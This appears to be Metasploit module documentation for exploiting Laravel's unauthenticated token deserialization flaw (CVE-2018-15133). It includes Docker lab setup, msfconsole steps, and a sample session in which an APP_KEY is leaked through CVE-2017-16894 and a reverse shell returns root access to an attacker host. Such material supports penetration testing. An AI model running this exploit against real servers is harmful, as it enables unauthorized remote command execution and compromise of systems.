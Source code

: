 ## Vulnerable Application

[Laravel](https://laravel.com/) is an actively-maintained PHP Framework web development suite.

This module exploits an unauthenticated vulnerability that allows for PHP object deserialization and command execution.
The vulnerability was discovered by [Ståle Pettersen](https://github.com/kozmic/laravel-poc-CVE-2018-15133)

The module may also uses CVE-2017-16894 to check for a leaked key. Another leaked key method is available which may not be known and perhaps 0day?

### Setting up Laravel on Debian

- `git clone https://github.com/kozmic/laravel-poc-CVE-2018-15133`
- Edit Dockerfile and change `sed -i -e 's/5.7.\*/5.6.29/g'` to `sed -i -e 's/5.8.\*/5.6.29/g'` (needs to be 5.8 as 5.7 is removed from mirror)
- `docker build -t laravel-poc-cve-2018-15133 .`
- `docker run -d -p 8000:8000 laravel-poc-cve-2018-15133`

## Verification Steps

- `./msfconsole`
- `use exploits/unix/http/laravel_token_unserialize_exec`
- `set RHOST <rhost>`
- `set RPORT <rport>`
- `set APP_KEY <base64_string>`
- `check`
- `exploit`

## Scenarios

```
msf5 exploit(unix/http/laravel_token_unserialize_exec) > check

[*] 172.22.222.112:8000 - APP_KEY not set. Will try to find it...
[*] 172.22.222.112:8000 - Checking for CVE-2017-16894 .env information leak
[+] 172.22.222.112:8000 - APP_KEY Found via Laravel Framework error information leak: uV1jO3mpnhtdvcsSi1EIUVtSMBXeAvWtL3lmNwx7n9Q=
[+] 172.22.222.112:8000 - The target is vulnerable.
msf5 exploit(unix/http/laravel_token_unserialize_exec) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] 172.22.222.112:8000 - APP_KEY not set. Will try to find it...
[*] 172.22.222.112:8000 - Checking for CVE-2017-16894 .env information leak
[+] 172.22.222.112:8000 - APP_KEY Found via Laravel Framework error information leak: uV1jO3mpnhtdvcsSi1EIUVtSMBXeAvWtL3lmNwx7n9Q=
[*] Command shell session 36 opened (172.22.222.136:4444 -> 172.22.222.112:49506) at 2019-07-12 08:16:05 -0500

uname -a
Linux 03cc598c00af 4.18.0-25-generic #26~18.04.1-Ubuntu SMP Thu Jun 27 07:28:31 UTC 2019 x86_64 GNU/Linux
whoami
root
```
